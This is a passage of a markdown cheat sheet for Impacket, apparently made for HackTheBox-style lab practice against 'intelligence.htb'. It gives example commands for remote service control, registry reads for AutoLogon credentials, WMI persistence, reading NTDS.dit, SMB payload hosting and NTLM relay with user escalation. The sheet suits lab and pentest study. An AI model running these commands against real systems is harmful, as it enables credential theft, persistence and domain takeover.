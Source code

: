 **impacket-services**  
_What_: Query/start/stop/create Windows services remotely.  
_When_: Primitive for persistence or psexec-like ops.  
_Example_: `impacket-services -action start -name Spooler intelligence.htb/ADMIN:P@ss@10.10.10.248`

**impacket-reg / impacket-registry-read**  
_What_: Remote registry manipulation / read.  
_When_: Gather creds (AutoLogon), enable RDP, pivot config.  
_Example_: `impacket-reg -query -keyName HKLM\\SOFTWARE\\... intelligence.htb/ADMIN:P@ss@10.10.10.248`

**impacket-wmipersist**  
_What_: WMI event subscription persistence.  
_When_: Post-exploitation persistence.  
_Example_: `impacket-wmipersist -add intelligence.htb/ADMIN:P@ss@10.10.10.248`

**impacket-wmiquery**  
_What_: Run WMI queries (no exec).  
_When_: Inventory, processes, hotfixes.  
_Example_: `impacket-wmiquery 'SELECT * FROM Win32_OperatingSystem' intelligence.htb/ADMIN:P@ss@10.10.10.248`

---

## 📦 SMB / Files / Servers

**impacket-smbclient**  
_What_: SMB client (ls, get, put).  
_When_: Browse/loot shares with SMB creds or Kerberos.  
_Example_: `impacket-smbclient -k -no-pass dc.intelligence.htb`

**impacket-smbserver**  
_What_: Spin up an SMB server to serve payloads or capture connections.  
_When_: Hosting tools, staging EXEs, or printnightmare-style paths.  
_Example_: `impacket-smbserver share ./loot -smb2support`

**impacket-ntfs-read**  
_What_: Read raw NTFS over SMB (backup semantics).  
_When_: File access even if normal perms block (with backup privilege).  
_Example_: `impacket-ntfs-read intelligence.htb/ADMIN:P@ss@10.10.10.248 C$\\Windows\\NTDS\\NTDS.dit`

**impacket-smbexec**  
_See_: Remote Execution section.

**impacket-karmaSMB / impacket-ntlmrelayx**  
_What_: Responder-like SMB server; NTLM relay toolkit (HTTP/SMB → LDAP/SMB/etc.).  
_When_: Forced-auth + relay to DCSync/RBCD/ACL edits.  
_Example_: `impacket-ntlmrelayx -t ldap://10.10.10.248 --escalate-user USER --no-smb-server`

**impacket-sambaPipe**  
_What_: Interact with Samba named pipes.  
_When_: Nix/Samba edge cases & debugging.

---

